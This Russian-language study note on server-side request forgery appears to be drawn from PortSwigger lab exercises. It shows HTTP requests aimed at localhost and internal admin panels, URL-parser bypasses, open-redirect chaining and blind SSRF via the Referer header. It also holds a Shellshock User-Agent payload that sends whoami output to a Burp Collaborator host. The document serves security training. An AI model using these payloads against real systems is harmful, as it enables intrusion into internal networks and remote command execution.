 [Server-side request forgery](https://portswigger.net/web-security/ssrf)

[SSRF Cheat Sheet & Bypass Techniques](https://highon.coffee/blog/ssrf-cheat-sheet)

# Распространенные атаки SSRF

### SSRF против самого сервера

При атаке SSRF на сам сервер злоумышленник заставляет приложение сделать HTTP-запрос обратно на сервер, на котором размещено приложение, через его loopback сетевой интерфейс. Обычно это включает в себя предоставление URL с именем хоста, например `127.0.0.1` или `localhost`.

Запрос к API для проверки наличия товара на складе:

```http
POST /product/stock HTTP/1.0 Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

В этой ситуации злоумышленник может изменить запрос, чтобы указать URL, локальный для самого сервера:

```http
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://localhost/admin
```

### SSRF на другие внутренние системы

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://192.168.0.68/admin
```

# Обход распространенных способов защиты от SSRF

### SSRF с входными фильтрами на основе черных списков

Обход фильтра:
- альтернативные IP-представления `127.0.0.1`, например `2130706433`, `017700000001` или `127.1`
- регистрация собственного доменного имени, которое разрешается в `127.0.0.1`. Для этой цели можно использовать `spoofed.burpcollaborator.net`
- Обфускация заблокированных строк с помощью кодировки URL или изменения регистра

### SSRF с входными фильтрами на основе белых списков

Спецификация URL содержит ряд особенностей, которые могут быть упущены при реализации специального разбора и проверки URL:
- учетные данные в URL перед именем хоста, используя символ `@`:

	`https://expected-host@evil-host`

- символ `#` для обозначения фрагмента URL:

	`https://evil-host#expected-host`

- использовать иерархию именования DNS для размещения требуемого ввода в полностью определенном подконтрольном DNS-имени:

	`https://expected-host.evil-host`

- URL-кодировать символы, чтобы запутать код разбора URL. Это особенно полезно, если код, реализующий фильтр, обрабатывает кодированные символы URL иначе, чем код, выполняющий внутренний HTTP-запрос
- использовать комбинации этих методов вместе

### Обход фильтров SSRF через открытое перенаправление

Есть функционал перехода на следующую страницу, которая содержит уязвимость `open redirection`, при которой URL:

```http
GET /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080
```

возвращает перенаправление на:

```
http://192.168.0.12:8080
```

Используем уязвимость для обхода фильтра URL и выполняем SSRF:

```http
POST /product/stock HTTP/1.1
Host: ac951fab1ffef84ac0f0709400cb00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Этот SSRF-эксплойт работает потому что приложение сначала проверяет, что предоставленный URL `stockAPI` находится в разрешенном домене, что и происходит. Затем приложение запрашивает предоставленный URL, что вызывает открытое перенаправление. Оно следует перенаправлению и делает запрос на внутренний URL по выбору злоумышленника.

# Слепые SSRF ^91df93

Например, на сайте используется аналитическое программное обеспечение, которое получает URL, указанный в заголовке `Referer`, когда загружается страница продукта:

```http
GET /product?productId=19 HTTP/1.1
Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net
Referer: https://ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net/
```

Вызов запроса к серверу Burp Collaborator:

```http
GET /product?productId=19 HTTP/1.1
Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net
Referer: http://2wznfi7jzcg9hkmhurnhykpjfal69v.burpcollaborator.net
```

**Blind SSRF + shellshock**
Shellshock payload: 

```
() { :;}; echo "pwned"
```

Пример запроса:

```http
GET /product?productId=1 HTTP/1.1
Host: ac901f3e1ea49cd3c054f7d2005b00d1.web-security-academy.net
User-Agent: () { :;}; /usr/bin/nslookup $(whoami).6fmtccqu58psg7aj77qad8m9j0psdh.burpcollaborator.net
Referer: http://192.168.0.§1§:8080
```

# Поиск скрытой поверхности атаки для уязвимостей SSRF

### Частичные URL-адреса в запросах

Иногда приложение помещает в параметры запроса `только имя хоста или часть пути URL`. Затем переданное значение включается на стороне сервера в полный URL, который запрашивается. Если значение легко распознается как имя хоста или путь URL, то потенциальная поверхность атаки может быть очевидной. Однако возможности использования SSRF могут быть ограничены, поскольку вы не контролируете весь URL, который запрашивается.

### URL в форматах данных

Некоторые приложения передают данные в форматах, спецификация которых позволяет включать URL, которые могут быть запрошены анализатором данных для данного формата. Очевидным примером этого является формат данных `XML`, который широко используется в веб-приложениях для передачи структурированных данных от клиента к серверу. Когда приложение принимает данные в формате `XML` и анализирует их, оно может быть уязвимо для `XXE-инъекции` и, в свою очередь, уязвимо для SSRF через `XXE`.

### SSRF через заголовок Referer

Некоторые приложения используют аналитическое программное обеспечение на стороне сервера, которое отслеживает посетителей. Такое ПО часто регистрирует заголовок `Referer` в запросах, поскольку он представляет особый интерес для отслеживания входящих ссылок. Часто аналитическое программное обеспечение фактически посещает любой сторонний URL, который появляется в заголовке `Referer`. Обычно это делается для анализа содержимого ссылающихся сайтов, включая якорный текст, который используется во входящих ссылках. В результате, заголовок `Referer` часто представляет собой плодотворную поверхность для атаки уязвимостей SSRF (см. [[ssrf#^91df93|Слепые SSRF]]).
